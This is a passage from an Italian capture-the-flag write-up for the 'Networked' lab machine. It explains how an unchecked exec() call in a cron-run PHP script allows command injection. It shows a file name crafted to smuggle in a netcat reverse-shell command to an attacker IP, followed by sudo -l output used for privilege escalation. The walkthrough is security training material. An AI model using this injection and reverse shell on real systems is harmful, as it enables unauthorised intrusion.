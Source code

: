 ```text
    $msg = "4tt4ck on file ".$filename.": prefix is not a valid ip ";
  } else {
    $msg = $filename;
  }
  return array($ret,$msg);
}

...
...

?>
```

La funzione _getnameCheck()_ è molto semplice in quanto separa il nome del file dalla sua estensione, mentre la funzione _check_ip()_ controlla la validità del filename e se non è valido ritorna false e viene triggerato il componente attack nel file _check_attack.php_. In questo caso viene passato il path del file alla funzione _exec()_ che, per mia fortuna, non prevede alcun controllo sulla validità dell'input.

Quindi mi sposto sulla cartella /var/www/html/uploads e creo il seguente file:

```text
touch '; nc -c bash 10.10.14.7 4444'
```

Successivamente, avvio un listener sulla porta 4444 e aspetto l'esecuzione del cron job:

<p align="center">
  <img src="/Immagini/Linux-Box/Networked/networked-5.png" />
</p>

**Ottengo così una shell per l'utente guly e ricavo il primo flag!**

Come prima cosa eseguo il comando:

```text
sudo -l
```

Il risultato è il seguente:

```text
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```
